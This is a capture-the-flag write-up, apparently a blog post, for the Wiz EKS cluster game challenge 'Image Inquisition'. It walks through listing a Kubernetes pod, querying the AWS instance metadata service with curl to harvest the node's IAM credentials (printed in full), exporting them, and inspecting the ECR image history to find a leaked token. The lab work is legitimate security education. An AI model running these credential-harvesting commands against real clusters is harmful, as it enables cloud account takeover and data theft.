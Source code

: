 ```yaml
---
title: Image Inquisition - eksclustergames | 10 points
date: 2023-12-29 12:00:00 +100
categories: [eksclustergames, ctf, image-inquisition]
tags: [ctf, eksclustergames, image-inquisition]
---
```


>A pod's image holds more than just code. Dive deep into its ECR repository. Inspect the image layers, and uncover the hidden secret
{: .prompt-info }

In this challenge, you retrieved credentials from the Instance Metadata Service (IMDS). Moving forward, these credentials will be readily available in the pod for your ease of use. You can also check the required K8s Cheat Sheet for this challenge within this page. 

If you see permissions, it's clearly mentioned that we have `list,get` pods permission.So, let's start with the listing the pods.

>You can also check the permission using `kubectl` command as mentioned below.
{: .prompt-tip }

```bash
root@wiz-eks-challenge:~# kubectl auth can-i list pod
yes
root@wiz-eks-challenge:~# kubectl auth can-i get pod
yes
```

### List pods

```bash
root@wiz-eks-challenge:~# kubectl get pods
NAME                      READY   STATUS    RESTARTS      AGE
accounting-pod-876647f8   1/1     Running   1 (22d ago)   58d
```

As it's only one pod to focus, we can simply start with it by checking it's image.

### Contianer Image

```bash
root@wiz-eks-challenge:~# kubectl get pods -o=jsonpath='{range .items[*]}{range .spec.containers[*]}{.image}{"\n"}{end}{end}'
688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-aaf4a7c@sha256:7486d05d33ecb1c6e1c796d59f63a336cfa8f54a3cbc5abf162f533508dd8b01
```

It's clear that the image is in ECR so obvisuly we need to run the AWS commands to go ahead.


```bash
root@wiz-eks-challenge:~# aws sts get-caller-identity

Unable to locate credentials. You can configure credentials by running "aws configure".
```

Now that above command returned output for login, we need to use the AWS Instance metadata service (IMDS) to get through it. Let's perform the required steps to setup login and get the Docker image from ECR.

### Instance Metadata Service (IMDS) to get IAM instance credentials

```bash
root@wiz-eks-challenge:~# curl http://169.254.169.254/latest/meta-data/iam/security-credentials
eks-challenge-cluster-nodegroup-NodeInstanceRole
```

### Get credentials

```bash
root@wiz-eks-challenge:~# curl -s 169.254.169.254/latest/meta-data/iam/security-credentials/eks-challenge-cluster-nodegroup-NodeInstanceRole | jq
{
  "AccessKeyId": "ASIA2AVYNEVM5QQU66N7",
  "Expiration": "2023-12-29 20:58:18+00:00",
  "SecretAccessKey": "8GFVVYgetRLMjTjjr0mQLLqCF9uNr0S7kSps+Mgn",
  "SessionToken": "FwoGZXIvYXdzEGUaDNIXeVNvbqF/NCkkdSK3AQiqCvidXKUztR2XOKM5t0iLlMLFlbjNiqd6pPjL6NrvTzZJ09e5TNmZ+Td1/mwvfVW9By5Tcrro0UHGTuLANkHR5klulXmAkCayYkiWtVXnKhAf6HMldwygnVX4Pygmd/k+y1lug+M7eeu6yLTUUBUSCkV+Fq0ofue4Bgz4ggxUTdIcu/NthDsVmucZX4AHsXIlCo8gc560vLK1b9P8i2cMIoVLKdeJLBUvxX80mAxsCdj2mZiRAijaybysBjItqjCqxmtmypWSBi/v354O9ziG5LqgzUldsGNBmJD1uOt1DxUs0qVy6VrUvfN/"
}
```

### Set AWS credential ENVs using inline bash command

```bash
root@wiz-eks-challenge:~# JSON="$(curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/eks-challenge-cluster-nodegroup-NodeInstanceRole)"; export AWS_ACCESS_KEY_ID="$(echo "$JSON" | jq -r .
AccessKeyId)"; export AWS_SECRET_ACCESS_KEY="$(echo "$JSON" | jq -r .SecretAccessKey)";export AWS_SESSION_TOKEN="$(echo "$JSON" | jq -r .SessionToken)";
```

### Confirm permission using `sts:GetCallerIdentity`

```bash
root@wiz-eks-challenge:~# aws sts get-caller-identity | jq
{
    "UserId": "AROA2AVYNEVMQ3Z5GHZHS:i-0cb922c6673973282",
    "Account": "688655246681",
    "Arn": "arn:aws:sts::688655246681:assumed-role/eks-challenge-cluster-nodegroup-NodeInstanceRole/i-0cb922c6673973282"
}
```

### Login using AWS cli and Crane

```bash
root@wiz-eks-challenge:~# aws ecr get-login-password | crane auth login --username AWS --password-stdin 688655246681.dkr.ecr.us-west-1.amazonaws.com
2023/12/29 20:11:42 logged in via /home/user/.docker/config.json
```

>Pull image from ECR using Crane if you want to use `dive`
```bash
crane pull "$(kubectl get pods -o=jsonpath='{range .items[*]}{range .spec.containers[*]}{.image}{"\n"}{end}{end}')" /tmp/image.tar
```
{: .prompt-tip }

It was mentioned in this Challenge that we need to check the image layers for getting flag. For this, I chose `Crane` as it was mentioned that this tool is already installed else `dive` is also a nice tool for this.

### Check the config of the image

```bash
root@wiz-eks-challenge:~# crane config "$(kubectl get pods -o=jsonpath='{range .items[*]}{range .spec.containers[*]}{.image}{"\n"}{end}{end}')" | grep -i "wiz_eks_challenge"
{"architecture":"amd64","config":{"Env":["PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"],"Cmd":["/bin/sleep","3133337"],"ArgsEscaped":true,"OnBuild":null},"created":"2023-11-01T13:32:07.782534085Z","history":[{"created":"2023-07-18T23:19:33.538571854Z","created_by":"/bin/sh -c #(nop) ADD file:7e9002edaafd4e4579b65c8f0aaabde1aeb7fd3f8d95579f7fd3443cef785fd1 in / "},{"created":"2023-07-18T23:19:33.655005962Z","created_by":"/bin/sh -c #(nop)  CMD [\"sh\"]","empty_layer":true},{"created":"2023-11-01T13:32:07.782534085Z","created_by":"RUN sh -c #ARTIFACTORY_USERNAME=challenge@eksclustergames.com ARTIFACTORY_TOKEN=wiz_eks_challenge{the_history_xx_xxxxxxxxx_xxxxx_xxxxx_reveal_the_secrets_to_the_future} ARTIFACTORY_REPO=base_repo /bin/sh -c pip install setuptools --index-url intrepo.eksclustergames.com # buildkit # buildkit","comment":"buildkit.dockerfile.v0"},{"created":"2023-11-01T13:32:07.782534085Z","created_by":"CMD [\"/bin/sleep\" \"3133337\"]","comment":"buildkit.dockerfile.v0","empty_layer":true}],"os":"linux","rootfs":{"type":"layers","diff_ids":["sha256:3d24ee258efc3bfe4066a1a9fb83febf6dc0b1548dfe896161533668281c9f4f","sha256:9057b2e37673dc3d5c78e0c3c5c39d5d0a4cf5b47663a4f50f5c6d56d8fd6ad5"]}}
```

and the flag is

>wiz_eks_challenge{the_history_xx_xxxxxxxxx_xxxxx_xxxxx_reveal_the_secrets_to_the_future}
{: .prompt-info }

